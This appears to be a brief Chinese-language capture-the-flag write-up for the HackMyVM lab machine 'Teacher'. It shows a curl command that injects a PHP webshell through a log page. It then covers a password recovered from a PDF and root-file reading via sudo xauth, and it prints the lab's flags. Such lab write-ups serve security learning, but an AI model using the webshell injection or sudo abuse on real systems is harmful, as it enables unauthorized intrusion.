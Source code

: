 # Teacher

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Teacher

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 access.php log.php clearlogs.php 这 3 个页面，access.php 访问是空页面，ffuf 探测一下可能的请求参数，发现是 id，在访问 access.php?id=/etc/passwd 后，log.php 页面上会显示访问的参数值，这里可以通过 access.php 写入 webshell，然后通过访问 log.php 进行反弹:

```
curl -G --data-urlencode 'id=<?php system($_GET[1]);?>' 'http://192.168.5.39'
```

获得反弹 shell，在/var/www/html 中发现一个奇怪名的 pdf e14e1598b4271d8449e7fcda302b7975.pdf 下载到 kali 上，查看，可以看到 PASS=ThankYouTeachers 文件的所属用户是 mrteacher 应该就是它的用户密码。

切换到 mrteacher ，拿到了 user flag:

```
www-data@Teacher:/home/mrteacher$ cat user
9cd1f0b79d9474714c5a29214ec839a6
```

sudo -l 显示(ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth

使用 xauth 命令进入交互模式，source 可以读取文件, 读取 root flag：

```
xauth> source /root/root
/bin/xauth: /root/root:1:  unknown command "HappyBack2Sch00l"
```

当然也可以通过 X11 协议，打开 gedit 的窗口，可以直接读取和修改文件。
